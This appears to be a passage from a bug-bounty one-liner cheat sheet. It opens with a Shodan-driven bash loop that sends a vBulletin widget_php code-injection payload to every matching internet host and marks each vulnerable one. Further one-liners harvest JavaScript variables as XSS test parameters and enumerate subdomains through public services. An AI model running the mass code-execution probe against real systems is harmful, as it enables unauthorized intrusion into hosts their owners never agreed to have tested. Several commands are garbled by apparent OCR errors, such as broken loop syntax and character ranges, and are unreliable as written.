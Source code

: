 ```bash
shodan search http.favicon.hash:-601665621 --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl -s http://$host/ajax/render/widget_tabbedcontainer_tab_panel -d 'subWidgets[0][template]=widget_php&subWidgets[0][config][code]=phpinfo();' | grep -q phpinfo && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done;
```
**Find JavaScript Files**
```bash
assetfinder --subs-only HOST | gau | egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Zo-9_]+" | sed -e 's, 'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'):echo -e "\e[1;33m$url\n" "\e[1;32m$vars"; done
```
**Extract Endpoints from JavaScript**
```bash
cat FILE.js | grep -oh "\"\/[a-zA-Z0-9_/?=&]*\"" | sed -e 's/^"//' -e 's/"$//' | sort -u
```
**Get CIDR & Org Information from Target Lists**
```bash
for HOST in $(cat HOSTS.txt);do echo $(for ip in $(dig a $HOST +short); do whois $ip | grep -e "CIDR\|Organization" | tr -s " " | paste - -; d
one | uniq); done
```
**Get Subdomains from RapidDNS.io**
```bash
export host="HOST" ; curl -s "https://rapiddns.io/subdomain/$host?full=1**esult" | grep -e "<td>.*$host</td>" | grep -oP '(?<=<td>)[^<]+' | sort -u
```
**Get Subdomains from BufferOver.run**
```bash
curl -s https://dns.bufferover.run/dns?q=.HOST.com | jq -r .FDNS_A[] | cut -d',' -f2 | sort -u
```
```bash
export domain="HOST"; curl "https://tls.bufferover.run/dns?q=$domain" | jq -r .Results'[]' | rev | cut -d ',' -f1 | rev | sort -u | grep "\.$domain"
```
**Get Subdomains from Riddler.io**
```bash
curl -s "https://riddler.io/search/exportcsv?q=pld:HOST" | grep -Po "(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u 
```
**Get Subdomains from VirusTotal**
```bash
curl -s "https://www.virustotal.com/ui/domains/HOST/subdomains?limit=40" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u
```
**Get Subdomain with cyberxplore**
```bash
curl https://subbuster.cyberxplore.com/api/find?domain=HOST -s | grep -Po "(([\w.-]*)\.([\w]*)\.([A-z]))\w+" 
```
**Get Subdomains from CertSpotter**
```bash
curl -s "https://certspotter.com/api/v1/issuances?domain=HOST&include_subdomains=true&expand=dns_names" | jq .[].dns_names | grep -Po "(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u 
```
**Get Subdomains from Archive**
```bash
curl -s "http://web.archive.org/cdx/search/cdx?url=*.HOST/*&output=text&fl=original&collapse=urlkey" | sed -e 's_https*://__' -e "s/\/.*//" | sort -u
```
**Get Subdomains from JLDC**
```bash
curl -s "https://jldc.me/anubis/subdomains/HOST" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u
```
**Get Subdomains from securitytrails**
```bash
curl -s "https://securitytrails.com/list/apex_domain/HOST" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | grep ".HOST" | sort -u
```